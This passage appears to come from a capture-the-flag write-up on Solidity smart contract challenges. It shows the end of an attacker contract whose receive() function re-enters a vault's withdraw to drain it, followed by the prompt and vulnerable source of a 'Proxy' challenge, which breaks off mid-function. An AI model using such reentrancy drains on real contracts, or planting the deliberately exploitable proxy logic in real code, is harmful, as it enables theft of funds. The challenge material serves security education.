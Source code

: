 ```solidity
        // I need my testnet tokens back
        msg.sender.call{value : address(this).balance}("");
    }

    receive() payable external{
        if (address(vault).balance >= 0.001 ether){
            vault.withdraw(0.001 ether);
        }
    }
}
```
{% end %}
***

# Proxy

P: "You've encountered a proxy contract setup where the Proxy delegates calls to an Executor implementation. Find a way to manipulate the logic and get isSolved to return true."

{% note(clickable=true, header="Proxy.sol") %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin-contracts-4.8.0/contracts/utils/Address.sol"; 
import "@openzeppelin-contracts-4.8.0/contracts/proxy/utils/Initializable.sol";

contract Proxy {
    // bytes32(uint256(keccak256("eip1967.proxy.implementation")) - 1)
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    constructor(address _logic, address _player) {
        require(Address.isContract(_logic), "implementation_not_contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;

        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize(address)", _player)
        );

        require(success, "call_failed");
    }
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
    // proxy fallback
    fallback() external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
```